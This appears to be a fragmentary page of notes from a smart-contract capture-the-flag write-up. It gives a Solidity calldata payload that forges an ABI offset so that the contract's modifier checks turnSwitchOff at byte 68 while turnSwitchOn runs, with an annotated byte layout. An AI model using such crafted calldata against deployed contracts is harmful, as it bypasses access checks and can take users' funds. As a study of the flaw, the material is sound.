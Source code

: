 bytes memory payload = bytes.concat(
  bytes4(keccak256("flipSwitch(bytes)")),         // [0-3]
  bytes32(uint256(0x60)),                         // [4-35] offset to _data (96 bytes)
  bytes32(uint256(4)),                            // [36-67] length of first call
  bytes32(bytes4(keccak256("turnSwitchOff()"))), // [68-99] turnSwitchOff selector
  bytes32(uint256(4)),                            // [100-131] length of second call
  bytes4(keccak256("turnSwitchOn()"))            // [132-135] turnSwitchOn selector (no padding required)
);

// Create the payload bytes
bytes memory payload = bytes.concat(
    // [0x00 - 0x03] Function selector: targetFunction(bytes,bytes)
    bytes4(keccak256("targetFunction(bytes,bytes)")),

    // [0x04 - 0x23] Offset to first dynamic argument (selector1) = 0x40 (64 bytes)
    bytes32(uint256(0x40)),

    // [0x24 - 0x43] Offset to second dynamic argument (selector2 with array) = 0x80 (128 bytes)
    bytes32(uint256(0x80)),

    // - First Dynamic Argument (Selector1) -

    // [0x44 - 0x63] Length of selector1 (4 bytes)
    bytes32(uint256(4)),

    // [0x64 - 0x83] Selector1: function1()
    bytes32(bytes4(keccak256("function1()"))),

    // - Second Dynamic Argument (Selector2 + array) -

    // [0x84 - 0xa3] Length of selector2 payload (4 bytes)
    bytes32(uint256(4)),

    // [0xa4 - 0xc3] Selector2: function2(uint256[])
    bytes32(bytes4(keccak256("function2(uint256[])"))),

    // [0xc4 - 0xe3] Offset to the array data within selector2 payload = 0x20 (32 bytes)
    bytes32(uint256(0x20)),

    // [0xe4 - 0x103] Length of array: 1 element
    bytes32(uint256(1)),

    // [0x104 - 0x123] foo[0] = 42
    bytes32(uint256(42))
);

# 18.

assembly {
    calldatacopy(selector, 68, 4) // ALWAYS checks byte 68!
}
```

It **hardcodes position 68** instead of reading from the offset pointer. This assumes the data will always be at a fixed location.

## How Your Exploit Works

Your payload structure:
```
[0-3]     0x30c13ade              // flipSwitch(bytes) selector
[4-35]    0x0...060               // offset = 96 (points to byte 100!)
[36-67]   0x0...004               // fake length = 4
[68-99]   0x20606e15...           // turnSwitchOff() - MODIFIER READS THIS ✓
[100-131] 0x0...004               // real length = 4  
[132-135] 0x0d9ea16f              // turnSwitchOn() - ACTUAL DATA EXECUTED ✓

